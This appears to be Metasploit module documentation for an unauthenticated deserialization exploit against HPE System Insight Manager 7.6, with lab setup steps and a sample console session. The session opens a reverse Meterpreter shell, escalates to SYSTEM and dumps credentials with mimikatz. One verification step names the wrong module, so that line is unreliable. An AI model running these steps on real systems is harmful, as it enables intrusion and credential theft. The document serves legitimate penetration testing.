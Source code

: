 ## Vulnerable Application
A remotely exploitable vulnerability exists within HPE System Insight Manager (SIM) version 7.6.x that can be
leveraged by a remote unauthenticated attacker to execute code within the context of HPE System Insight
Manager's `hpsimsvc.exe` process, which runs with administrative privileges. The vulnerability occurs due
to a failure to validate data during the deserialization process when a user submits a POST request to
the `/simsearch/messagebroker/amfsecure` page.

This module exploits this vulnerability by leveraging an outdated copy of Commons Collection, namely
3.2.2, that ships with HPE SIM, to gain RCE as the administrative user running HPE SIM.

### Installing HP SIM 7.6
1. Set up a Windows Server 2016 VM.
1. Sign up for a HP login if you do not have one already. You can use a throw away email address here.
1. Download HPE SIM from https://myenterpriselicense.hpe.com/cwp-ui/download/swd/product/details/HPSIM-Win-7.x.
1. Search for `Turn Windows Features On or Off`, select `Role-based or feature-based installation`, and click `Next`, until you see `Select features`.
1. Check `SNMP Service` and `.NET Framework 3.5 Features`, and click `Next`, then `Install`. You may need to be connected to the internet to install .NET 3.5.
1. Download SQL Server 2016 SP2 Express from https://www.microsoft.com/en-us/download/details.aspx?id=56840 and run the installer.
1. Open `Computer Management` and then go to `Computer Management (Local)->Services and Applications->SQL Server Configuration Manager->SQL Server Network Configuration->Protocols for SQLEXPRESS` and double click on `TCP/IP`.
1. Set `Enabled` to `Yes` under the `Protocol` tab.
1. Click on the `IP Addresses` tab and set all `TCP Dynamic Ports` fields from `0` to an empty field, and set all `TCP Port` fields to `1433`. Then click the `Apply` button.
1. Restart the SQL service by running `sc stop MSSQL$SQLEXPRESS` and then after a few seconds, run `sc start MSSQL$SQLEXPRESS`
1. Run the HPE SIM installer and when it gets to the `Database Configuration` page, it should default to `Use SQL/SQL Express`.
1. Ensure at this point that the username is `Administrator` (or whatever the name of the administrative user you are installing as is), and the `Domain` and `Host` values are correct, and that the port is `1433`.
1. For the `Password` field, enter the password of the `Administrator` (or whatever the name of the administrative user you are installing as is), and click the `Next` button.
1. Click `Typical` under the installation option and then select `Next`.
1. On the `Service Account Credentials` screen, enter the password for the `Administrative` user and click `Next`. Then click `Install`.
1. Wait for installation to complete, this could take up to 30 min.
1. Verify that you can view https://127.0.0.1:50000/simsearch/messagebroker/amfsecure and that the page returns a HTTP 200 OK response code.

## Verification Steps

1. Install the application ensure port 50000 is open on the target and that the `/simsearch/messagebroker/amfsecure` page is accessible.
1. Start msfconsole
1. Do: `use exploit/windows/http/sharepoint_data_deserialization`
1. Set the `RHOSTS` option.
1. Set the `TARGET` option if desired.
1. Set an appropriate payload for the `PAYLOAD` option.
1. Set any additional options as required by the previously selected payload
1. Run the exploit

## Options

## Scenarios

### SIM_7.6_Z7550-96287 on Server 2016

```
msf6 > use exploit/windows/http/hpe_sim_76_amf_deserialization
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/http/hpe_sim_76_amf_deserialization) > set RHOSTS 172.27.145.59
RHOSTS => 172.27.145.59
msf6 exploit(windows/http/hpe_sim_76_amf_deserialization) > set LHOST 172.27.150.115
LHOST => 172.27.150.115
msf6 exploit(windows/http/hpe_sim_76_amf_deserialization) > show options

Module options (exploit/windows/http/hpe_sim_76_amf_deserialization):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     172.27.145.59    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      50000            yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the HPE SIM server
   VHOST                       no        HTTP server virtual host


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.27.150.115   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Windows Powershell


msf6 exploit(windows/http/hpe_sim_76_amf_deserialization) > exploit

[*] Started reverse TCP handler on 172.27.150.115:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable. Target returned java.lang.NullPointerException in its 200 OK response!
[*] Sending stage (200262 bytes) to 172.27.145.59
[*] Meterpreter session 1 opened (172.27.150.115:4444 -> 172.27.145.59:53349) at 2021-03-08 16:04:52 -0600

meterpreter > getuid
Server username: WIN-QKA9JKS5MVU\Administrator
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeAssignPrimaryTokenPrivilege
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeCreateTokenPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeLockMemoryPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username       Domain           NTLM                              SHA1
--------       ------           ----                              ----
Administrator  WIN-QKA9JKS5MVU  *censored*                        *censored*

wdigest credentials
===================

Username          Domain           Password
--------          ------           --------
(null)            (null)           (null)
Administrator     WIN-QKA9JKS5MVU  (null)
WIN-QKA9JKS5MVU$  WORKGROUP        (null)

kerberos credentials
====================

Username                 Domain           Password
--------                 ------           --------
(null)                   (null)           (null)
Administrator            WIN-QKA9JKS5MVU  (null)
MSSQL$SQLEXPRESS         NT Service       (null)
SQLTELEMETRY$SQLEXPRESS  NT Service       (null)
win-qka9jks5mvu$         WORKGROUP        (null)


meterpreter >
```
